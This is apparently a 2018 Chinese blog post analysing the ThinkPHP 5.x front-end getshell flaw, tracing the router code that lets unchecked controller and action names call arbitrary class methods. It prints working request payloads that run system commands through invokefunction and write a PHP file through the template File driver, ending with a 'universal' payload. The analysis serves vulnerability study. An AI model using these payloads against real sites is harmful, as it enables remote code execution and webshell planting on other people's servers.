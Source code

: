 ```yaml
---
title: ThinkPHP5.x 前台getshell分析
date: 2018-12-11 17:26:18
tags:
	- 漏洞分析
	- ThinkPHP
---
```


# 前言

昨晚微博刷着刷着看到一个无条件的ThinkPHP5.x通杀前台getshell，然后群里面师傅们也都在讨论这件事了。感觉是个TP5写的站都是通杀，怕是一场腥风血雨。。。

官方给出的补丁，可以看到是路由上面出的问题，怪不得通杀。

![](ThinkPHP5-x-前台getshell分析\1.png)

# 漏洞分析

分析版本 ThinkPHP 5.1.30

## 路由调用

先从`thinkphp/library/think/route/dispatch/Url.php:20`看起

```php
    public function init()
    {
        // 解析默认的URL规则
        $result = $this->parseUrl($this->dispatch);
        return (new Module($this->request, $this->rule, $result))->init();
    }
```

`init`中进行了url解析然后将返回值赋值给`$result`，然后再传入到`Module`的`init()`中。

先来到解析url的部分，可以一直跟进到`thinkphp/library/think/route/Rule.php:947`

```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
}
```

可以看到是单纯的根据`/`来进行分割，也就意味着其中可以插入一些自定义的字符。

最后返回一个这样的`[$module, $controller, $action]`数组

![](ThinkPHP5-x-前台getshell分析\2.png)

在`Module`初始化的时候，就会将`$result`数组赋值到`$this->dispatch`变量中

然后来到`Module`的`init()`方法

`thinkphp/library/think/route/dispatch/Module.php:27`

```php
public function init()
{
    parent::init();

    $result = $this->dispatch;

    if (is_string($result)) {
        $result = explode('/', $result);
    }

	.....

    // 是否自动转换控制器和操作名
    $convert = is_bool($this->convert) ? $this->convert : $this->rule->getConfig('url_convert');
    // 获取控制器名
    $controller       = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));
    $this->controller = $convert ? strtolower($controller) : $controller;

    // 获取操作名
    $this->actionName = strip_tags($result[2] ?: $this->rule->getConfig('default_action'));

    // 设置当前请求的控制器、操作
    $this->request
        ->setController(Loader::parseName($this->controller, 1))
        ->setAction($this->actionName);

    return $this;
}
```

可以看到`$this->controller`和`$this->actionName`是从变量`$result`值而来的

```php
$controller       = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));
$this->controller = $convert ? strtolower($controller) : $controller;
$this->actionName = strip_tags($result[2] ?: $this->rule->getConfig('default_action'));
```

而这`$result`的值是由`$this->dispatch`的值而来的。

```php
$result = $this->dispatch;
```

到了这里，漏洞也就差不多出来了，由于获取`$controller`和`$action`时没有进行什么检验，后面就是常规的调用类触发方法。

导致可以调用任意类的任意方法。只要找到几个存在危险函数调用的地方，就可以深度利用这个漏洞。

## 寻找触发点

触发点似乎有蛮多的，就挑几个说一下

### \think\Container invokefunction

`thinkphp/library/think/Container.php:340`

```php
public function invokeFunction($function, $vars = [])
{
    try {
        $reflect = new ReflectionFunction($function);
        $args = $this->bindParams($reflect, $vars);
        return call_user_func_array($function, $args);
    } catch (ReflectionException $e) {
        throw new Exception('function not exists: ' . $function . '()');
    }
}
```

可以直接看到`call_user_func_array`的调用，传入对应的`$function`和`$var`即可

```
s=index/\think\Container/invokefunction
&function=call_user_func_array
&vars[0]=system
&vars[1][]=dir
```

### \think\template\driver\File  write

`thinkphp/library/think/template/driver/File.php:27`

```php
public function write($cacheFile, $content)
{
    // 检测模板目录
    $dir = dirname($cacheFile);

    if (!is_dir($dir)) {
        mkdir($dir, 0755, true);
    }

    // 生成模板缓存文件
    if (false === file_put_contents($cacheFile, $content)) {
        throw new Exception('cache write error:' . $cacheFile, 11602);
    }
}
```

```php
s=index/\think\template\driver\File/write
&cacheFile=1.php
&content=<?=phpinfo();
```

就会生成一个`1.php`的文件

# 最后

可以调用的类还是相当多的，今天网上一搜，好多站都已经是马场了，惨惨惨。。。

后来知道5.0和5.1以及linux和win有点差异，放一个通用的payload

```
index.php
?s=index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=system
&vars[1][]=dir
```

